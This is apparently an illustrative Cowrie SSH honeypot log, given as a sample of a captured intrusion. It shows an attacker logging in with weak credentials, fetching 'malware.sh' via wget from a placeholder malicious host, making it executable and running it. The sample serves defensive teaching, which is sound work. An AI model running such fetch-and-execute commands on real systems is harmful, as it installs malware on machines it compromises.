 ## Example of a Captured Intrusion Log

Below is an example of what a typical SSH intrusion attempt looks like in Cowrie's logs:

```json
{
    "eventid": "cowrie.session.connect", 
    "src_ip": "198.51.100.72", 
    "src_port": 49834, 
    "dst_ip": "203.0.113.45", 
    "dst_port": 2222, 
    "session": "6c46c404c20c", 
    "protocol": "ssh", 
    "timestamp": "2023-04-15T18:24:37.616108Z"
}
{
    "eventid": "cowrie.login.success", 
    "timestamp": "2023-04-15T18:24:42.491417Z", 
    "session": "6c46c404c20c", 
    "src_ip": "198.51.100.72", 
    "src_port": 49834, 
    "username": "admin", 
    "password": "admin123", 
    "protocol": "ssh"
}
{
    "eventid": "cowrie.command.input", 
    "timestamp": "2023-04-15T18:24:46.342330Z", 
    "session": "6c46c404c20c", 
    "input": "cat /proc/cpuinfo", 
    "src_ip": "198.51.100.72", 
    "src_port": 49834
}
{
    "eventid": "cowrie.command.input", 
    "timestamp": "2023-04-15T18:24:52.112928Z", 
    "session": "6c46c404c20c", 
    "input": "cd /tmp", 
    "src_ip": "198.51.100.72", 
    "src_port": 49834
}
{
    "eventid": "cowrie.command.input", 
    "timestamp": "2023-04-15T18:25:02.783321Z", 
    "session": "6c46c404c20c", 
    "input": "wget http://malicious-site.com/malware.sh", 
    "src_ip": "198.51.100.72", 
    "src_port": 49834
}
{
    "eventid": "cowrie.command.input", 
    "timestamp": "2023-04-15T18:25:12.221109Z", 
    "session": "6c46c404c20c", 
    "input": "chmod +x malware.sh", 
    "src_ip": "198.51.100.72", 
    "src_port": 49834
}
{
    "eventid": "cowrie.command.input", 
    "timestamp": "2023-04-15T18:25:15.547892Z", 
    "session": "6c46c404c20c", 
    "input": "./malware.sh", 
    "src_ip": "198.51.100.72", 
    "src_port": 49834
```